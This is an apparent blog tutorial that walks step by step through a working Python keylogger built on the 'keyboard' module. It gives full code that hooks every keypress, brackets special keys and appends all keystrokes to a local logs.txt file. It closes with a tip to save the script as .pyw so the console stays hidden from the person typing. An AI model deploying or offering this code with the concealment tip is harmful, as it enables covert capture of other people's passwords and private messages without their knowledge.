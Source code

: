```yaml
---
title: Designing A Simple Keylogger In Python
description: A tutorial which teaches you how to develop a simple keylogger in Python. Keyloggers are applications which are used to log keys when typed, naturally, keyloggers are not illegal unless used unlawful purposes
category: Programming
image: https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/hero.jpg
excerpt: With Python, you can make a keylogger which will log the keypress of the keyboard and save the contents to a file
keywords:
  - keylogger
  - keylogging in python
  - python keylogger
date: 2021-04-24
---
```


> **Keystroke logging**, often referred to as **keylogging** or **keyboard capturing**, is the action of recording (logging) the keys struck on a keyboard, [\[1\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-1) typically covertly, so that a person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the person operating the logging program. A **keystroke recorder** or **keylogger** can be either software or [hardware](https://en.wikipedia.org/wiki/Computer_hardware).
>
> ~ [Wikipedia](https://en.wikipedia.org/wiki/Keystroke_logging) ~

<p class="intro">
The above context is extracted from Wikipedia and it explains what a keylogger is and what it does. Well, I hope most of you know what a keylogger is. Keyloggers are in two forms, software and hardware but the one we are going to be creating today is the software form of a keylogger. It is going to listen to all the key strokes and log them to a file. Cool right?
</p>

Before we start, you need to be conversant with the python programming language, it is what we are going to use in this tutorial. Let's get started.

## Installing the required modules

We are going to use the [keyboard](https://pypi.org/project/keyboard/) module for the keylogger. To install it, open your terminal type in `pip install keyboard`. If no error occured, you are good to go.

After that, open a new python file and let's start coding :dark_sunglasses:

## Creating the logger function

```python
import keyboard #The keyboard module

def logger(event):
	print(event.name)

keyboard.on_press(logger)
keyboard.wait()
```

I can say we are done, maybe above 50% done. Let me explain the code; on the first line, we imported the `keyboard` module. Then we defined our `logger(event)` function, it takes `event` as parameter and then it print's it's `.name` out. Then to the next line, we assigned the `logger` function as a parameter to the `keyboard.on_press` method. The `keyboard.on_press` method takes a function as parameter and passes an event to it. Then to the last line, the `keyboard.wait` makes the program run without closing, it acts like a while loop.

If we are to run our code in the terminal, it runs successfully without any errors. However, there is a problem, try typing this sentence after activating the logger `"am a hacker"`.
<img class="Sirv" src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/before_filter.gif" alt="" />

We really might not see the effect because, when the program is ran on the terminal, each character is printed on a new line but if the results were stored in a file, this is how it will look.

<img class="Sirv" src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/before_filter_txt.png" alt="" />

You might be confused, let me explain, when special keys are pressed, their names are returned and thus it makes it difficult for us to know if it was a character or special key. For example, if a user presses <kbd>space</kbd>, it will print out "space" or if <kbd>enter</kbd>, it will print out "enter", when this data is appended to a file, it just adds up to the letters and makes it difficult for us to know whether it was a special key or not.

## Solving the special key problem

Fortunately, there is a solution to this problem, the only thing we need to do is find a way to mark special keys so we will be able to differentiate between the two. To do so, we create another function called `filter(char)` which will filter the results before writing it to a file. It takes a character as parameter and surround the `char` with `[]` if it is a special key else, it will just go ahead and write it to a file.

```python
def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char
```

Well, this new code just popped into my head :laughing: , the first time I made the `filter` function, it was like this.

<img class="Sirv" src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/first_filter_function.png" alt="" />

This function above was 98 lines, this was because, I hard-coded every key inside my function, but now, I use a simple logic for the filter function. if we are to look at all the "special keys", we will find out that the length of their name is more than one whereas the length of normal characters or letters is one. So in our new `filter` function, we first checked if the `char == 'space'`, we then return `" "` if true. Then on the next line, we check if the length of the `char` is greater than one, if it is, then it means it is a special key so we wrap `[]`around it. else, we just return the `char`. Now our keylogger logs the characters much better.

```python
import keyboard #The keyboard module

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	print(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

Now, we are 95% done, our keylogger works as expected but it's not logging to any file. It's only writing to stdout. In order to make a real keylogger, we need to log the output to a file.

## Logging data to a file

The final step is to create a function which will write the data to a file.

```python
import keyboard #The keyboard module

def writer(data):
    with open("logs.txt","a") as file:
        file.write(data)

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	writer(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

We created a function called `writer` which takes `data` as parameter, it then writes the data to a file named "logs.txt", the file is going to be located in the directory as the python file.

Let's have a look at our `logger` function again, we called the `writer` function and we passed the `event.name` to it but we wrapped it with the `filter` function to filter it and that's our keylogger. just run your python file and you are good to go

**Tip:** You can hide the console from popping up if you save your python file with a .pyw extension
